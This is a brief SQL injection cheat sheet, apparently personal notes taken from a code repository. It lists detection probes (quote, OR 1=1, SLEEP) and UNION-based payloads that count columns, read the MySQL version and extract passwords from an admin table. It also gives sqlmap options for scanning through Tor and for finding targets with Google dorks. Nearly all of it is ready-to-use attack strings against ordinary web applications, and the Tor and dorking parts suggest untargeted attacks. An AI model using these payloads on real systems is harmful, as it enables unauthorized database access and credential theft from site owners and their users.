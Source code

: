 # SQL injection
		Detecting SQL injection vulnerabilities
- Single quote '	`https://site/news.php?id=5'`
- Boolean conditions `https://site/news.php?id=5 OR 1=1`
- Timed base `https://site/news.php?id=5 or SLEEP(25)`

<!-- -->

				Blind SQL injection
the application does not return the results of the SQL query or the details of any database errors within its responses. Blind vulnerabilities can still be exploited to access unauthorized data, but the techniques involved are generally more complicated and difficult to perform.			
				
				
				
				
				
				
				
				Finding Number of columns
-- Increment until you get a error 				
`http://ip/news.php?id=5 order by 1/*`

				Checking Union Fuction
-- union all Number of columns found
-- `http://ip/news.php?id=5 union all select 1,2,3/*`

				Check MYSQL version
-- `http://$ip/news.php?id=5 union all select 1,@@version,3/*`

				Getting Column and Table Names
-- Table Names
-- `http://ip/news.php?id=5 union all select 1,2,3 from admin/*`
-- Column Names
-- `http://ip/news.php?id=5 union all select 1,password,3 from admin/*`
				SQLMap
-- Scan through Tor
	--tor-type=SOCKS5
-- List Databases
	--dbs


-- Use google Dorking
sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n